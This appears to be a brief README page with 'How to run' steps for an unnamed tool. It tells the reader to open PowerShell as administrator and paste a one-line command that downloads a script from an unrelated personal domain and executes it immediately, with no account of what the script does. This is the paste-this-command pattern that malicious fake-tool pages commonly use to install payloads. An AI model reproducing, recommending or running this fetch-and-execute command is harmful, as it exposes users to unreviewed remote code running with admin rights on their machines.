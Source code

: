 ### HOW TO RUN

-   Right-click on the Windows start menu and select PowerShell (Admin).
-   Alternative Download [PowerShellx64.msi](https://github.com/PowerShell/PowerShell/releases/download/v7.4.5/PowerShell-7.4.5-win-x64.msi) or [PowerShellx86.msi](https://github.com/PowerShell/PowerShell/releases/download/v7.4.5/PowerShell-7.4.5-win-x86.msi) and Run As Admin PowerShell 7
-   Copy and paste the code below and press enter
```
iex (iwr "https://mnet.my.id/update/github/script" -UseBasicParsing)
```
-  You will see the download.
-  That's all.
